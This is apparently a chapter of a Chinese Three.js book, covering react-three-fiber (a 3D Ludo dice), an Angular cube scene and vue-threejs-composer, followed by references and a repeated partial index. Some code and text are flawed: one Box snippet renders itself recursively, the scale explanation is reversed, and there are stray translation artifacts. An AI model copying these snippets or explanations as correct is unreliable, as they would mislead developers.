虽然 Three.js 库本身不是用 TypeScript 构建的，但其代码仓库和 NPM 包中包含了"类型"（这些是带 `.d.ts` 后缀的文件，与 JavaScript 文件一起存放在仓库中）。因此，Three.js 可以与 TypeScript 项目协同工作。

## React 与 Three.js 简介

今天，我们将探讨如何设置和使用 react-three-fiber，以在 React 和 React Native 应用中创建和展示 3D 模型和动画。本课程面向希望深入了解使用 React 进行网页 3D 模型动画开发的开发者，以及那些在使用 Three.js 时遇到过问题的人，例如无法构建画布、绑定用户点击事件或启动渲染循环等问题。为了更好地理解如何使用 react-three-fiber 制作 Three.js 3D 模型，我们将构建一个 3D 模型。

Three.js 是一个使在网页中创建 3D 图形变得简单的工具包；它使用 canvas 加上 WebGL 来展示 3D 模型和动画，如上所述。

## react-three-fiber 入门

React-three-fiber 是一个用于网页和 React Native 的 Three.js React 渲染器，它加速了使用 Three.js 生成 3D 模型和动画的过程；一些包含 3D 模型和动画的网站示例可以在这里找到。React-three-fiber 因其可复用组件、事件绑定和渲染循环而缩短了动画时间。但首先，必须先定义 Three.js。

它使我们能够使用 React state、hooks 和 props 来构建 three.js 代码组件。

它还包含以下元素：

| 序号 | 元素 | 描述 |
|---|---|---|
| 1 | 基于组件和渲染循环 | 它是一个基于组件的框架，根据 state 或 store 的变化进行渲染 |
| 2 | 网格（Mesh） | 一个帮助我们塑造模型的功能 |
| 3 | Hooks | react-three-fiber 中的 hooks 使我们能够构建定义用户事件（如 onClick 和 onPointOver）的函数 |

## react-three-fiber：如何使用

NPM: `npm i three react-three-fiber`
YARN: `yarn add three react-three-fiber`

## 开发带有动画的 React 3D 飞行棋骰子原型

在这个项目中，我们将使用 react-three-fiber 创建一个 3D 飞行棋骰子模型，类似于视频中展示的那个。要启动我们的项目，我们将使用 create-react-app；为此，在终端中运行以下命令。

```
create-react-app react-three-fiber-ludo-model
```

上述程序在我们的本地机器上创建了一个 React 项目；现在进入该目录并安装 react-three-fiber 和 three 包。

```
cd react-three-fiber-ludo-model
npm i three react-three-fiber
```

包安装完成后，使用以下命令启动我们的开发服务器。

```
npm start
```

上述命令应在我们浏览器的开发服务器中启动我们的项目。接下来，用你喜欢的文本编辑器打开项目，并从 src 文件夹中删除以下文件：`App.css`、`App.test.js`、`serviceWorker.js` 和 `setupTests.js`。然后，在 `App.js` 中，删除所有引用已删除文件的代码。

对于这个项目，我们需要一个用于飞行棋骰子的 Box 组件，以及一个 React App 组件。

### 构建 Box 组件

Box 组件将包含我们飞行棋骰子的形状，以及一张飞行棋骰子的图片和一个使其持续旋转的状态。让我们先导入 Box 组件所需的所有包。

```
import React, { useRef, useState, useMemo } from "react";
import { Canvas, useFrame } from "react-three-fiber";
import * as THREE from "three";
import five from "./assets/five.png";
```

在上面的代码中，我们导入了 `useRef`、`useState` 和 `useMemo`。`useRef` hook 将用于访问骰子网格，`useState` hook 将用于检查飞行棋骰子的激活状态。骰子上的数字将使用 `useMemo` hook 返回。Canvas 用于在浏览器上绘制图形，`useFrame` 允许组件接入渲染循环，使一个组件能够渲染在另一个组件的内容之上。然后导入了 three 包，接着是一张飞行棋骰子的静态图片。

接下来我们将编写 Box 组件的逻辑。让我们先创建一个函数组件，然后向其添加状态，如下所示。

```
const Box = (props) => {
  const mesh = useRef();
  const [active, setActive] = useState(false);
  useFrame(() => {
    mesh.current.rotation.x = mesh.current.rotation.y += 0.01;
  });
  const texture = useMemo(() => new THREE.TextureLoader().load(five), []);
  return (
    <Box />
  );
};
```

在上面的代码中，我们使用 props 创建了一个 Box 组件，然后使用 `useRef` hook 创建了一个名为 mesh 的 ref。我们这样做是为了始终能够返回相同的网格。

网格是场景中的视觉元素；它是一个由三角多边形组成的 3D 对象；通常使用 Geometry（用于定义模型的形状）和 Material（用于定义模型的外观）来构建；你可以在这里了解更多关于 Mesh 的信息，也可以在这里了解更多关于 `useRef` hook 的信息。

初始化网格后，我们需要使用 `useState` hook 为我们的应用创建一个状态，将悬停和激活状态设置为 false。

然后，使用下面的代码，我们使用 react-three-fiber 中的 useFrame hook 来旋转网格（飞行棋骰子）。

```
mesh.current.rotation.x = mesh.current.rotation.y += 0.01;
```

这样做是为了给旋转一个流畅的动画。

```
const texture = useMemo(() => new THREE.TextureLoader().load(five), []);
```

为了加载新的骰子结果，我们创建了一个名为 texture 的常量，并传入一个 react useMemo hook 作为函数，useMemo hook 会记住骰子的图片和数字。useMemo hook 在这里有详细说明。之后，我们将在浏览器中渲染 Box 组件并添加我们的事件，我们将在下面完成。

```
const Box = (props) => {
  return (
    <mesh
      {...props}
      ref={mesh}
      scale={active ? [2, 2, 2] : [1.5, 1.5, 1.5]}
      onClick={(e) => setActive(!active)}
    >
      <boxBufferGeometry args={[1, 1, 1]} />
      <meshBasicMaterial attach="material" transparent side={THREE.DoubleSide}>
        <primitive attach="map" object={texture} />
      </meshBasicMaterial>
    </mesh>
  );
};
```

在上面的代码中，我们返回了 Box 组件并将其包裹在 mesh 中。我们使用展开运算符传递了 Box 组件的所有属性，然后使用 useRef hook 引用了 mesh。接下来，我们使用 Three.js 的 scale 属性在激活时将骰子盒子的大小从 2 变为 1.5。最后但同样重要的是，添加了一个 onClick 事件，如果尚未激活，则将状态设置为激活。

```
<boxBufferGeometry args={[1, 1, 1]} />
```

使用 Three.js 的 boxBufferGeometry 组件渲染了骰子盒子。我们使用 args 参数将构造函数（如盒子几何体的大小）传递给 BufferGeometry，这使我们能够绘制线条和点等图形。

```
<meshBasicMaterial attach="material" transparent side={THREE.DoubleSide}>
```

使用 Three.js 的 meshBasicMaterial 创建简单的几何体。在这种情况下，我们传递了 attach 属性和 THREE。给 side 属性添加 DoubleSide props，THREE 个。DoubleSide 指定 react-three-fiber 应该渲染哪些侧面或空间。

```
<primitive attach="map" object={texture} />
```

使用 Three.js 的 primitive 组件创建 3D 图形。添加了 map 属性以保持飞行棋骰子的原始形状。接下来，我们将在 App.js 文件中渲染我们的 Box 组件，完成我们的 3D 飞行棋骰子盒子。你的组件应该类似于下面展示的那个。

### 渲染 3D 飞行棋骰子盒子

在这个阶段，我们将在 App.js 中渲染我们的 Box 组件并完成我们的 3D 飞行棋盒子。为此，创建一个 App 组件并将其包裹在 Canvas 标签中，这将渲染我们的 3D 模型。

```
const App = () => {
	return (
		<Canvas>
		</Canvas>
	);
}
export default App;
```

接下来，让我们为盒子添加一些光照。React-three-fiber 为我们提供了三种光照组件，如下所示。

### 环境光（Ambient Light）

这用于均匀照亮场景或模型中的所有对象，它接受光照强度等 props。这将照亮飞行棋骰子的主体。


聚光灯

ludo 骰子的点数将被这盏灯照亮，光线从单个方向发射，并且随着物体尺寸增大，强度也会增加。

### pointLight

其功能类似于灯泡，光线从单一点向所有方向发射；这对于我们应用程序的激活状态是必需的。

让我们将上述内容应用到我们的应用程序中。

```
const App = () => {
  return (
    <Canvas>
      <ambientLight intensity={0.5} />
      <spotLight position={[10, 10, 10]} angle={0.15} penumbra={1} />
      <pointLight position={[-10, -10, -10]} />
    </Canvas>
  );
}
export default App;
```

我们从 react-three-fiber 导入了 ambientLight 组件，并将其强度设置为 0.5；然后为我们的 spotLight 和 pointLight 组件设置了位置和角度。我们应用程序的下一个阶段是渲染我们的 box 组件并为 ludo 骰子方块设置位置，这将在下面的代码中完成。

```
<Box position={[-1.2, 0, 0]} />
<Box position={[2.5, 0, 0]} />
```

React 和 React Native 应用程序现在可以轻松渲染 3D 模型和动画，这要归功于 react-three-fiber。通过制作我们的 3D ludo 骰子方块，我们了解了 Three.js 的基础知识、其组件以及 react-three-fiber 的优势，以及如何使用它。你可以通过利用 react-three-fiber 在 React 和 Native 应用程序中创建 3D 模型和动画，走得更远。

## 使用 Three.js 的 Angular 场景

Three.js 是一个用于在 Web 浏览器中创建和显示动画 3D 计算机图形的 JavaScript 库，它兼容 HTML5、WebGL 和 SVG。

在本节中，我们将介绍一个简单的示例。我们将渲染一个 3D 立方体，学习 Three.js 的基础知识，然后将其与 Angular 集成。

设置项目。

要跟随本教程，您的计算机必须安装 Node：[Node.js](https://nodejs.org)。

安装 Node.js 并按照向导的说明进行操作（根据 32/64 位使用）。

首先，打开您首选的终端并创建一个新的 Angular 项目。（如果您要将 Three.js 添加到现有项目，可以跳过此步骤。）

- 在开始 Angular 项目之前，您必须先安装 Angular CLI。

```
npm install -g @angular/cli
```

使用 CLI，您就可以开始构建 Angular Web 应用程序了。让我们通过在终端中输入以下命令开始。

```
ng new angular-three
```

在 CLI 完成项目设置后，我们将当前目录更改为项目目录，并通过在终端中执行以下命令来安装 Three.js 作为依赖项。

```
cd angular-three
npm install --save three
```

可以使用以下命令安装 Three.js 的类型定义。

```
npm install --save @types/three
```

Three.js 现在已经安装并可以在我们的 Angular 项目中使用了。为了验证它是否工作，我们将创建一个简单的场景，包含一个相机和一个立方体网格。

首先，让我们创建一个 Angular 组件，该组件包括一个用于渲染 3D 对象的 HTML 文件，一个用于导入 Three.js 功能的 TypeScript 文件（.ts），以及一个 CSS 或 SCSS 样式文件。要创建 Cube 组件，请输入以下命令。

```
ng generate component cube
```

打开 HTML 文件，将画布添加到我们的空场景中。在 HTML 模板中，我们可以将画布设置为任意大小。

完成这一小步后，我们可以将注意力转向 TypeScript 文件，在那里创建我们的 3D 场景的真正工作 awaits awaits。

## Three.js 场景编程

要在 Angular 中使用 Three.js，必须首先将 Three.js 库导入到 cube.component.ts 组件中，该组件将渲染 3D 对象。

使用以下方式获取我们添加到 HTML 文件的画布引用：

```
@ViewChild('canvas') private canvasRef: ElementRef;
```

立方体属性包括：

- rotationSpeedX：x 轴立方体旋转速度
- rotationSpeedY：立方体在 y 轴上的旋转速度大小
- 立方体纹理大小：如果您希望为立方体添加纹理，这是您应该选择的大小

场景特征：

- cameraZ：相机在 z 轴上的位置
- fieldofview：相机近场视野
- ClippingPlanefar
- ClipingPlane

近裁剪平面和远裁剪平面是沿着相机视线位于两个不同距离处的假想平面。在相机的视野中，只有位于两个裁剪平面之间的项目才会被绘制。

### 为什么我们要移动相机？

默认情况下，添加到场景中的元素在 (0, 0, 0) 处生成，这就是为什么我们必须移动相机或元素，以便在画布上查看元素。

让我们制作一些辅助属性来帮助创建场景。

- 声明一个 perspective camera 类型的相机变量：它生成一个三维图像，其中远处的物体看起来比近处的物体小。透视相机定义了一个视锥体。
- 使用 getter 函数初始化一个几何变量来获取画布元素。
- 创建一个材质变量，用于加载纹理图像。
- 初始化立方体并声明渲染器和场景，如下所示。

### 几何体的定义是什么？

几何体是我们正在创建的渲染形状，如盒子。几何体可以从顶点创建，也可以使用现有的几何体。

最基本的默认选择是 BoxGeometry。我们只需要设置盒子的宽度、高度和深度。还有其他预配置的几何体可用。可以轻松定义平面、球体、圆柱体，甚至是二十面体。

### 材质管理

物体的外观由其材质描述。可以在此处定义纹理、颜色和透明度。在本例中，我们只是设置一个纹理。仍然有多种材质可供选择。它们之间的根本区别在于它们对光的反应方式。`MeshBasicMaterial` 是最基本的。这种材质完全不受光线影响，每个面都将是相同的颜色。然而，由于你看不到盒子的边缘，这可能不是最佳解决方案。`MeshLambertMaterial` 是最基本的关心光线的材质。这将确定每个顶点的颜色，这相当于每个面的颜色。但它不会进一步处理。

### 定位网格（在我们的例子中是立方体）

我们可以在场景中定位网格（在我们的例子中，是一个立方体）并围绕每个轴旋转它。如果我们希望在 3D 空间中制作动画，稍后我们 largely 会改变这些值。对于定位，我们使用与设置大小时相似的单位。无论使用小数还是大数都没有关系；唯一重要的是您在自己的现实中保持一致。旋转的值以弧度设置。如果您的值是度数，请将其除以 180 度并乘以 PI。

现在我们可以使用上面解释的函数创建代码，结果将显示在页面上。

## 使用 Vue.js 和 Three.js，您可以创建令人惊叹的场景

如今，有几种用于在 Vue 中使用 Three.js 创建场景的库：

- vue-threejs
- vue-gl

这些库对于构建小型场景很有用，因为它们使创建基本 3D 内容（包括物理）变得简单。然而，对于更复杂的场景，我们需要对某些方面有更多的控制：资产和场景管理从未如此简单。基于 THREE 的内容创建。使用 js vue-threejs-composer，我们可以做到这一点。

### 功能

此集合将不包括基本几何体、材质和更高级的内容。它将只实现一个您可以轻松扩展的基础，以及一些内置功能，以减轻用户在标准 Three.js 项目中遇到的常见问题：

- 内置资产和场景管理器
- 3D 模型加载和实例化辅助工具
- 使用 Three.js 代码创建自定义内容和组件

现在让我们看一些示例。

### 创建声明式场景

与上述其他库一样，此库包含一些基本组件，您可以使用它们来构建自己的组件。

```
<three>
    <renderer :canvas="canvas" scene="scene1"
    camera="main" antialias shadows/>

    <!-- include asset bundles or other scenes -->
    ...

    <scene name="scene1" assets="Water">

        <camera name="main" :factory="cameraFactory">
            <position :value="scene1.camera.position"/>
            <rotation :value="scene1.camera.rotation"
    rad/>
        </camera>

        <light name="sun" :factory="lightFactory">
            <position :value="{x: -5, y: 10, z: -5}"/>
            <shadows cast/>
        </light>

        <mesh geometry="plane" material="water_M">
            <rotation :value="{ x: -90, y: 0, z: 0 }"/>
            <shadows receive/>
        </mesh>

        <group>
            <position :value="{ x: 10, y: 3, z: 10 }"/>
            <scale :value="{ x: 0.01, y: 0.01, z: 0.01
    }"/>

            ...
        </group>

    </scene>
    ...
</three>
```


### 组织您的资源

资源包（Asset bundles）将帮助您更有效地排列您的资源。随后，场景将加载指定的资源包并等待所有预加载资源完成。这使您能够专注于应用程序中更关键的领域。

```xml
...
<asset-bundle name="Forms">
    <geometry name="cube" :factory="cubeFactory"/>
    <geometry name="plane" :factory="planeFactory"/>
</asset-bundle>

<asset-bundle dependencies="Forms" name="Water" preload>
    <standard-material name="waterMat" color="#9c9cff"/>
</asset-bundle>

<scene name="scene1" assets="Water" @load="..." @load-progress="..." @loaded="..."/>
...
```

### 模型

您是否经常发现加载 3D 模型很困难？该库还包含一种将材质加载到此类资源中的简单方法。

```xml
<asset-bundle name="PM" preload>
    <texture name="PM_Tex" src="/assets/textures/PM_Texture_01.png"/>
    <standard-material name="PM_Mat" map="PM_Tex"/>

    <model name="PM_column" src="/assets/models/PM_Column.fbx" materials="PM_Mat"/>
    <model name="PM_column_top" src="/assets/models/PM_Column_Top.fbx" materials="PM_Mat"/>
</asset-bundle>

<scene name="scene1" assets="PM">
    <group>
        <position :value="{ x: 10, y: 3, z: 10 }"/>
        <scale :value="{ x: 0.01, y: 0.01, z: 0.01 }"/>
        <shadows cast receive/>
        <mesh model="PM_column">
            <shadows cast receive deep/>
        </mesh>
        <mesh model="PM_column_top">
            <shadows cast receive deep/>
        </mesh>
    </group>
</scene>
```

该库默认不带处理模型加载的包。您必须先安装希望使用的加载器，然后在 `Loader` 类中注册必要的扩展：

```typescript
import FbxLoader from "...";
import { Loader } from "vue-threejs-composer";

// 告知我们的模型加载器对于 .fbx 扩展名使用 FBXLoader
Loader.registerExtension("fbx", FBXLoader);
```

### 开发独特内容

大多数组件要么需要，要么可以被扩展，以便用户轻松地将他们的 Three.js 代码集成到组件中。

```typescript
// 创建工厂函数，随后您可以创建
import * as THREE from "three";
import { Application, GeometryFactory } from "vue-threejs-composer";

export const cubeFactory: GeometryFactory = async (app: Application) => {
    return new THREE.BoxBufferGeometry(1, 1, 1);
};
```

## 总结

在本章中，我们了解了学习 Three.js 的未来方向。此外，我们还学习了如何利用其他框架并将其与 Three.js 融合，以提升任何 Web 应用程序的质量。

## 笔记

- 1. 使用 react-three-fiber 深入探讨 React 和 Three.js — Fortune Ikechi, Smash Magazine.
- 2. Hello Cube: Angular 中的 THREE.js 场景 — Anurag Srivastava, Geek Culture.

## 参考文献

*Using Three.js with React, Vue.js, Angular, Svelte ... – Discover Three.js*, https://discoverthreejs.com/book/introduction/threejs-with-frameworks/

*A Dive into React and Three.js Using – Smashing Magazine*, https://www.smashingmagazine.com/2020/11/threejs-react-three-fiber/.

## 资料目录

- 1. Three.js Introduction. https://threejs.org/docs/index.html#manual/en/introduction/Creating-a-scene, 访问日期 2022年6月3日。
- 2. W3Schools Introduction. https://www.w3schools.com/w3js/, 访问日期 2022年6月3日。
- 3. Three.js Scene Graph. https://r105.threejsfundamentals.org/threejs/lessons/threejs-scenegraph.html, 访问日期 2022年6月3日。
- 4. Three.js Introduction. https://threejs.org/docs/manual/en/introduction/How-to-run-things-locally.html, 访问日期 2022年6月3日。
- 5. Three.js Materials. Three.js Fundamentals. https://r105.threejsfundamentals.org/threejs/lessons/threejs-materials.html, 访问日期 2022年6月4日。
- 6. Three.js. https://discoverthreejs.com/book/introduction/get-threejs/, 访问日期 2022年6月4日。
- 7. Three.js Basics. https://eng.libretexts.org/Bookshelves/Computer_Science/Applied_Programming/Book%3A_Introduction_to_Computer_Graphics_(Eck)/05%3A_Three.js_-_A_3D_Scene_Graph_API/5.01%3A_Three.js_Basics, 访问日期 2022年6月4日。
- 8. Treemaps Are also Commonly Used to Illustrate. Course Hero. https://www.coursehero.com/file/p6knc0lm/Treemaps-are-also-commonly-used-to-illustrate-governmental-finances-where-each/, 访问日期 2022年6月5日。
- 9. https://medium.com/@benjamin.c.coleman/the-beginners-guide-to-beginning-three-js-c36b8947c2aa, 访问日期 2022年6月5日。
- 10. Three.js. https://threejs.org/manual/, 访问日期 2022年6月5日。
- 11. Basic of Three.js. https://gorrion.io/blog/three-js-series-basic-tutorial-of-three-js/, 访问日期 2022年6月5日。
- 12. Creating a Game in Three.js. LogRocket Blog. https://blog.logrocket.com/creating-game-three-js/, 访问日期 2022年6月6日。
- 13. Scene Graph. Three.js. https://threejs.org/manual/en/scenegraph.html, 访问日期 2022年6月6日。
- 14. Basic of Three.js. https://developer.mozilla.org/en-US/docs/Games/Techniques/3D_on_the_web/Building_up_a_basic_demo_with_Three.js?utm_campaig, 访问日期 2022年6月6日。
- 15. https://blog.logrocket.com/creating-game-three-js, 访问日期 2022年6月6日。
- 16. https://threejs.org/docs/#/api/en/renderers/WebGLRenderer, 访问日期 2022年6月7日。
- 17. https://threejs.org/docs/#/api/en/geometries/BoxGeometry, 访问日期 2022年6月7日。
- 18. three.js Examples. https://bashooka.com/coding/threejs-website-website-examples/, 访问日期 2022年6月7日。
- 19. three.js. https://www.minapecheux.com/index.html, 访问日期 2022年6月8日。
- 20. three.js Performance. https://attackingpixels.com/tips-tricks-optimizing-three-js-performance/, 访问日期 2022年6月8日。
- 21. Code Optimization in Three.js. https://www.gatsbyjs.com/blog/performance-optimization-for-three-js-web-animations/, 访问日期 2022年6月8日。
- 22. Tips and Tricks in Three.js. https://discoverthethreejs.com/tips-and-tricks/, 访问日期 2022年6月9日。
- 23. Performance in Three.js. https://protectwise.github.io/troika/troika-3d/performance/, 访问日期 2022年6月10日。
- 24. Libraries and Plugins Three.js. https://threejs.org/docs/#manual/en/introduction/Libraries-and-Plugins, 访问日期 2022年6月11日。
- 25. https://discourse.threejs.org/t/using-popular-front-end-frameworks-with-three-js-do-you-recommend/18391, 访问日期 2022年6月11日。
- 26. Draw Box with Three.js. https://www.freecodecamp.org/news/render-3d-objects-in-browser-drawing-a-box-with-threejs/, 访问日期 2022年6月11日。
- 27. Three.js React. https://www.smashingmagazine.com/2020/11/threejs-react-three-fiber/, 访问日期 2022年6月12日。
- 28. Career in Three.js. https://www.reddit.com/r/threejs/comments/cr6zy8/how_can_threejs_boost_my_career_are_there_many/, 访问日期 2022年6月12日。

## 索引

**A**

- 自适应设计 (Adaptive design), 12–16
- addBackgroundBit, 84
- addChallengeRow, 84–86
- Three.js 的优势 (Advantages of Three.js), 10
- AES, 115
- ambientLight, 49, 175
- 使用 Three.js 的 Angular 场景 (Angular scene using Three.js), 177–178
- 动画对象，大量对象的优化 (Animated objects, optimizing a large number of), 139–155
- 动画 (Animation), 53, 107
- AnimationFrame, 96
- Anime.js, 117
- 抗锯齿 (Anti-aliasing), 128–129, 166
- appendChild 方法, 95
- 应用程序开发 (Application development), 57, 91, 103
    - 使用 Three.js 构建应用, 58, 93, 104
        - 代码教程, 93
            - 初始 HTML 配置, 93–94
        - 安装与下载, 93
        - 3D 场景, 94–96
    - 商业计划，导入, 100
    - 代码教程, 104
        - 动画, 107
        - 背景, 108
        - 基础, 105
        - 重新配置, 107–108
        - 天空, 106–107
- 营造运动感, 59
- 开发服务器 (development server), 96
    - Mac 系统, 96
    - Windows 用户, 96
- 绘制几何体并调整视口大小, 96–99
- 最终场景规划, 70–74

- 游戏 (game),
    - 使用 Three.js 创建游戏, 58–59
    - 为其设定基调, 65–69
    - 游戏 UI 设计, 87–89
- 游戏玩法逻辑，包含, 74
- 游戏项目，配置, 60–61
- Garden's Gate, 路径, 108
    - 算法, 108–109
    - 裁剪, 109–110
    - 元安全 (meta security), 115
    - 分享, 109
    - 符号选取, 110–114
- 无限移动, 59–60
- 输入 (input)
    - 通过键盘, 74–75
    - 通过触摸屏, 75–76
- 场景中移动的对象, 76
    - addBackgroundBit, 84
    - addChallengeRow, 84–86
    - detectCollisions, 78–83
- 渲染循环，最后修饰, 86
- 天空，想象, 69–70
- Spotify, 115
    - 算法, 116
    - 图像生成, 116–117
    - 加载器, 117–118
- Spotify 最近热门播放曲目, 119
    - 算法, 119–120
    - 组件的设计与开发, 120–121
    - faith，加载器, 121–123
    - faith，进度, 123–125
    - 获取用户的最爱歌曲, 119
    - 排行榜, 120


## 索引

- 入门项目结构，100
- 3D 开发，101–102
- 3D 模型
    - 加载，101
    - 选择，100–101
- TypeScript 环境配置，64
- 视口更新，调整大小，99
- Webpack 文件的添加，61–64
- 箭头函数，23
- 增强现实，91
- AxesHelper，40, 41, 42

### B
- Base，105
- baseFile，142
- *The Battle at Garden's Gate*，110
- 初学者友好建议/帮助，160–161
- boxBufferGeometry 组件，175
- Box 组件，172–175
- 立方体几何体，31
- 浏览器，开发者控制台，8–9
- Bruno Simon，9
- BufferAttributes，52, 150
- BufferGeometry，52, 175
- BufferGeometryUtils，138
- 商业计划，导入，100

### C
- 回调函数，20
- CameraHelper，165
- 相机，51, 164
    - 自定义 BufferGeometry，52
    - 阴影，52
- Canvas，110
- HTML 中的 "canvas" 元素，92
- 使用 Three.js 的职业前景，169
    - 使用 Three.js 的 Angular 场景，177–178
- Box 组件，172–175
    - 材质管理，179
        - 创建声明式场景，181
    - 特性，180
    - 模型，182–183
        - 放置网格，180
    - 资源，组织，182
- 开发独特内容，183
- Vue.js 与 Three.js，180
- 使用其他框架和库
    - 与 Three.js 一起使用，170–171
    - React 与 Three.js，171
    - react-three-fiber，171–172
        - Three.js 场景编程，178
        - 几何体的定义，179
        - 移动相机，179
- 渲染 3D 飞行棋骰子盒，175
    - ambientLight，175
    - pointLight，176
    - spotLight，176
- 使用 react-three-fiber 创建 3D 飞行棋骰子模型，172
- TypeScript，171
- CDN 安装/静态托管，26–27
- Chronos Group，4
- 创建类式对象，23
- 闭包的工作原理，19
- 代码优化
    - 优化大量动画对象，139–155
    - 抗锯齿，128–129
    - 自定义材质，165
        - 抗锯齿，166
        - 几何体，165
    - 后处理，166
        - 纹理，166
    - 通用技巧，161–162
    - 加固与安全，156
        - 初学者友好建议/帮助，160–161
    - 输出编码，158–159
    - 保护你的代码，158
    - 输出编码的网页上下文，159
    - XSS 缓存，157
    - XSS 反射，156–157
- Three.js 中大量对象
    - 优化，130–139
- 模型、网格和可见对象，163
    - 相机，164
    - 灯光，164
    - 材质，165
    - 渲染器，164
    - 阴影，165
    - 开启渲染器，165
- 场景中使用的多边形数量，128
- 编写优化且高效的代码，127
- 设置对象性能，167
- 使用国际单位制，162
    - 精确颜色，162–163
    - JavaScript，163
    - 使用 linter 和风格指南，163
- 3D 渲染的分辨率，129–130
- 选择网页浏览器，128
- 碰撞检测，78
- 颜色，162–163
- CommonJS 导入，27
    - Node.js，27
    - WebGL 兼容性，27–28
- 通用对象的属性，54
- 计算机，7
- Three.js 速成课程，2
- Croppie 插件，110
- CryptoJS，115
- CSS 径向渐变，108
- CSS Scroll Snap，110
- 自定义材质，165
    - 抗锯齿，166
    - 几何体，165
    - 后处理，166
    - 纹理，166
- 圆柱体，32–33

### D
- 创建声明式场景，181
- depthTest 属性，40
- 使用解构，21–22
- detectCollisions，78–83
- 开发者，7
- 浏览器开发者控制台，8–9
- 开发服务器，96
    - Mac 用户，96
    - Windows 用户，96
- DirectionalLight，50, 164, 165
- DirectionalLightHelper，50
- Three.js 的缺点，10–11
- 十二面体，33
- domElement 属性，95
- 带点运算符的函数，19
- DoubleSideprops，175
- DynamoDB，120

### E
- earthMesh，38, 39, 41
- earthOrbit，40, 41
- EdgesGeometry，34–35
- 文本编辑器，7
- 效果，53
- ES5/ES6/ES7 相关内容，20
- 外部文件，28

### F
- Three.js 的特性，52
    - 动画，53
    - 通用对象的属性，54
    - 效果，53
    - 材质，54
    - 网格创建，53
    - 渲染，53
    - 跟踪渲染性能，54
    - 缩放，53
    - 场景，53
- Figma，120
- 最终场景规划，70–74
- Five-server Node.js，29
- Three.js 回顾，4
- 平面圆形，31–32
- For(elem of collection)，20
- 视锥体，52
- 函数参数，21–22

### G
- 游戏
    - UI 设计，87–89
    - 设定基调，65–69
- 游戏代码，100
- 使用 Three.js 创建游戏，58–59
- GameLoop，96
- 包含游戏玩法逻辑，74
- 配置游戏项目，60–61
- 通往 Garden's Gate 之路，108
    - 算法，108–109
    - 裁剪，109–110
    - 元安全，115
    - 分享，109
    - 符号选择，110–114
- 几何体，165
    - 定义，179
- **getNoise** 函数，67
- 认识 getter 和 setter，23
- Girl in Red，115–116
- GitHub，54
- GLSL，*参见* OpenGL Shader Language
- GPU，*参见* 图形处理单元
- 图形处理单元（GPU），1
- Greta Van Fleet，108–109
- GridHelper，41, 42

### H
- 加固与安全，156
    - 初学者友好建议/帮助，160–161
    - 输出编码，158–159
    - 保护你的代码，158
    - 输出编码的网页上下文，159
    - XSS 缓存，157
    - XSS 反射，156–157
- 运行 Three.js 应用所需的硬件和软件，7
    - 计算机，7
    - 浏览器开发者控制台，8–9
    - 文本编辑器，7
    - Three.js 开发者，7
    - 网页浏览器，8
    - 支持 WebGL 的设备，9
    - Web 服务器，8
- HemisphereLight，50
- 处理高分辨率显示器，16
    - 前置条件，18–19
- HTML
    - HTML 中的 "canvas" 元素，92
    - 配置，93–94
- HTML5 技术，1
- Node.js 中的 Http-server，29
- hueRange，141

### I
- IDE，*参见* Integrated Development Environment
- IIS，30
- ImageMagick，110
- Import Map，26
- 引入 Three.js，5–7
- 无限移动，59–60
- **init** 函数，69, 87
- 输入
    - 通过键盘，74–75
    - 通过触摸屏，75–76
- 集成开发环境（IDE），67

### J
- JavaScript，3, 163
    - 使用 JavaScript 编码，24
    - 框架，92
- JPG 与 PNG 对比，46–47
- JSFiddle，55

### K
- 键盘输入，74–75

### L
- latHelper，136
- Lee O'Connor 的图形，104
- 灯光，48–49, 164
- Lighttpd，30
- LinearFilter，47
- LinearMipmapLinearFilter，47
- Linter，163
- 使用模板字面量，23–24
- loadAll 函数，155
- 管理本地操作，28
- lonHelper，136
- lookAt 函数，37

### M
- Mac，开发服务器，96
- makeAxisGrid，41
- mapValues 函数，141, 142
- Martin, Jee，104
- 材质管理，179
    - 创建声明式场景，181
    - 特性，180
    - 模型，182–183
        - 放置网格，180
        - 资源，组织，182
        - 开发独特内容，183
    - Vue.js 与 Three.js，180
- 材质，43–44, 54, 165
- 内存使用，46
    - PNG 与 JPG 对比，46–47
- MeshBasicMaterial，44, 136, 160, 175, 179
- 网格创建，53
- MeshLambertMaterial，44, 165
- MeshPhongMaterial，44
- MeshPhysicalMaterial，51
- MeshStandardMaterial，51
- MeshToonMaterial，44
- Microsoft IIS，30
- 模型、网格和可见对象，163
    - 相机，164
    - 灯光，164
    - 材质，165
    - 渲染器，164
    - 阴影，165
    - 开启渲染器，165
- ES6 模块，18–19
- moonMesh，40
- Mozilla Hubs，9
- 多个 Mesh 对象，12

### N
- NearestFilter，47
- Node.js，27
- Npm 模块，25–26

### O
- Object3D 对象，136
- onBeforeCompile，151
- onClick 事件，174
- OpenGL，*参见* 开放图形库
- OpenGL Shader Language（GLSL），1, 54, 100–101
- 开放图形库（OpenGL），4
- OpenGraph Shader Language（GLSL），67–68
- 编写优化且高效的代码，127
- OrbitControls，49, 164
- originHelper，138
- 输出编码的网页上下文，159

### P
- PerspectiveCamera，51, 65
- PNG 与 JPG 对比，46–47
- PointLight，51, 164, 165, 176
- 场景中使用的多边形，128
- positionHelper，136
- 后处理，166
    - preserveDrawingBuffer，164
- Three.js 中的图元，31
    - 立方体几何体，31
    - 圆柱体，32–33
    - 十二面体，33
    - EdgesGeometry，34–35
    - 平面圆形，31–32
    - 场景图，36–43
    - 实心圆锥，32
    - 文本几何体，34
    - 二维（2D），33
    - 中心带孔洞的 2D，34
    - WireframeGeometry，35–36
- Python 服务器，29–30, 96

### R
- CSS radial-gradient() 方法，108
- React 与 Three.js，171
- React-three-fiber，171–172
    - 创建 3D 飞行棋骰子模型，172
- 使用 Three.js 的理由？，4
- RectAreaLight，51, 164
- RectAreaLightHelper，51
- 远程服务器，28–29


## 索引

### R
- 渲染 (Render), 53
- 渲染器 (Renderer), 164
- 渲染性能跟踪, 54
- 渲染循环，最终完善, 86
- 资源组织, 182
- 剩余参数 (Rest parameter), 22–23
- Ruby 服务器, 30

### S
- 缩放 (Scaling), 53
- `sceneConfiguration` 变量, 71
- 场景图 (Scenegraph), 11
- 场景图 (Scene graph), 36–43
- 场景编程, Three.js, 178
    - 几何体定义, 179
    - 移动相机, 179
- 场景 (Scenes), 53
- 血清素 (Serotonin), 115
- Python 服务器, 29–30 服务器
- Servez, 25, 29
- 阴影 (Shadows), 52, 165
- SI 单位，工作方式, 162
    - 精确颜色, 162–163
    - JavaScript, 163
    - 使用 linter 样式指南, 163
- 天空 (Skies), 106–107
- `solarSystem`, 41
- 实心圆锥 (Solid cone), 32
- 样条曲线设计 (Spline Design), 10
- 体育与娱乐营销, 103
- Spotify 应用程序, 104, 115
    - 算法, 116
